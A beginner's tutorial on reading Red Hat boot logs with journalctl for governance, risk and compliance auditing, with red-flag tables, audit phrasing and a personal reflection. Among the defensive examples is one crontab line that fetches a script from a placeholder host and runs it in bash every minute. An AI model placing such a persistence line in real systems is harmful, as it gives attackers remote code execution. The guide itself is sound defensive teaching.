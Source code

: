 🐧 Red Hat Boot Log Analysis: GRC Guide for Beginners

👩🏽‍💻 Author: Rebecca Baldoz

"Let Yourself Begin Again" — learning cybersecurity one boot log at a time.

🔍 Objective

This document serves as a beginner-friendly guide to analyzing Red Hat (or other Linux) boot logs using journalctl, with an emphasis on how this skill ties into GRC (Governance, Risk, and Compliance), system integrity, and security auditing.

✅ What a Healthy Boot Log Looks Like

Run this command to view the latest boot log:

sudo journalctl -b

Key Indicators of a Healthy Boot:

🔧 Component

✅ What to Expect

BIOS logs

Starts with BIOS-e820 memory entries

DMI/SMBIOS

Shows manufacturer like Dell, HP, or innotek GmbH

Kernel & systemd

Smooth progression with no big delays

auditd.service

Should start successfully

Reboot reason

Clean shutdown or user-initiated reboot

🚨 Red Flags in a Compromised or Suspicious Boot

⚠️ Red Flag

💬 What It Might Mean

To Be Filled By OEM

Possible spoofed BIOS — indicates tampering

Gaps in timestamps

Log suppression or anti-forensics

auditd.service: Failed

Logging disabled — weakens forensic readiness

Unexpected @reboot cron jobs

Could trigger malware at startup

Reboot reason: watchdog expired

System crashed or froze — may indicate instability

🛡️ Basic GRC Defense Phrases

Use these in documentation, GitHub reports, or real audits:

"System boot logs begin at BIOS handoff and proceed through the kernel to user-space services without timestamp anomalies."

"SMBIOS data reflects a consistent system fingerprint across boots, confirming hardware integrity."

"No unauthorized scheduled tasks or suspicious network calls detected in crontab during boot."

🧪 Example: Suspicious Cron Job

* * * * * bash -c "$(curl -fsSL http://shady.site/payload.sh)"

🚩 This runs every minute and downloads code from an unknown source. Dangerous.

🧰 Helpful Commands

# View boot logs
sudo journalctl -b

# View only BIOS-related boot messages
sudo journalctl -b | grep BIOS

# Show system manufacturer and serial number
sudo dmidecode -t system

# List root’s cron jobs
sudo crontab -l

🧩 Next Steps (for GitHub and Real Life)



💬 Personal Reflection

Today I learned how to read my Red Hat boot logs and look for anomalies. I may not understand everything yet, but I now know how to:

Check BIOS messages

Spot bad cron jobs

Recognize spoofed system identifiers

Explain what "auditd" is and why it matters

Progress isn't about being perfect. It's about seeing further today than I did yesterday. 🖥️🐧🫡
